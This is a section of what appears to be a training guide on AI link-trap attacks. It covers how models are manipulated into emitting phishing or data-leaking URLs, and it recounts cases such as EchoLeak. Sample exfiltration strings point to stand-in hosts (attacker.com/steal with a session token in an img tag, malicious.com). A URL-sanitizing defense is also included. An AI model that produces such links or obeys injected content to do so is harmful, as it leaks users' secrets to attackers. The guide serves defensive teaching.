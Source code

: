 ## 8. Link Traps & Malicious URLs

### Theory
AI-generated link traps involve manipulating AI to produce malicious URLs:
- **Phishing Links:** AI outputs links disguised as legitimate resources
- **Data Exfiltration:** URLs embed sensitive data (`attacker.com/steal?data=SECRET`)
- **Link Masking:** Display text differs from actual URL (`<a href="evil.com">google.com</a>`)
- **Unicode/Encoding Tricks:** Zero-width spaces, homoglyphs, URL format abuse

AI becomes unwitting phishing intermediary or data leakage channel.

### Real-World Examples
- **Trend Micro "Link Trap" Report (2025):** Adversaries tricked GenAI into outputting URLs with embedded user data. Example: `google.com/search?q=<<sensitive_info>>` leaked data when clicked.
- **CVE-2025-32711 (EchoLeak):** AI prompted to return image tag with data in URL: `<img src="attacker.com/steal?session=TOKEN">`. Browser auto-load sent token to attacker.
- **Forbes AI Phishing (2025):** Researcher demonstrated ChatGPT generating personalized phishing emails with "password reset" links to clone sites.

### Hands-On Lab Concepts
**Link Trap Simulation:**
```python
knowledge_base = {
    "product_manual": "[Download manual](http://malicious.com/manual?user_id=12345)"
}

def ai_response(query):
    return knowledge_base.get(query, "Not found")

# Shows URL with embedded user data
print(ai_response("product_manual"))
```

**URL Validation:**
```python
import urllib.parse

def is_safe_url(url):
    parsed = urllib.parse.urlparse(url)
    allowed_domains = ['company.com', 'docs.company.com']
    return any(parsed.netloc.endswith(domain) for domain in allowed_domains)

def sanitize_response(response):
    urls = re.findall(r'http[s]?://[^\s\)]+', response)
    for url in urls:
        if not is_safe_url(url):
            response = response.replace(url, '#')
            response += "\n[Link removed for safety]"
    return response
```

### Defense Tools & Strategies
- **URL Validation:** Google Safe Browsing API, VirusTotal checks
- **Content Security Policy:** Browser CSP prevents auto-loading untrusted resources
- **Display Full URLs:** Show actual destination before click
- **Link Sanitization:** Filter/block disallowed domains
- **Disable Auto-Load:** Images/scripts require explicit user action
- **URL Encoding Detection:** Identify homoglyphs, zero-width characters
